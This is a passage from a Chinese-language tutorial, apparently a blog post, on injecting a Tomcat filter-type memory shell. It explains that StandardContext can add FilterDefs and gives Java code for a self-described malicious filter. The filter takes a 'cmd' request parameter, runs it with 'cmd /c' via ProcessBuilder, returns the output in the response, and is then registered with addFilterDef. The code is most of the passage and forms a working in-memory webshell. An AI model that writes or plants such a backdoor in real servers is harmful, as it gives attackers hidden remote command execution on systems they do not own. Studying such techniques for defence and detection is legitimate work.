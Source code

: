 StandardContext也提供了添加FilterDefs的方法

![image-20220817002155418](images/image-20220817002155418.png)

因此在注册恶意filter之后我们可以方便的将其添加到FilterDefs

```java
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);
```

#### 将filterDefs添加filterConfigs中
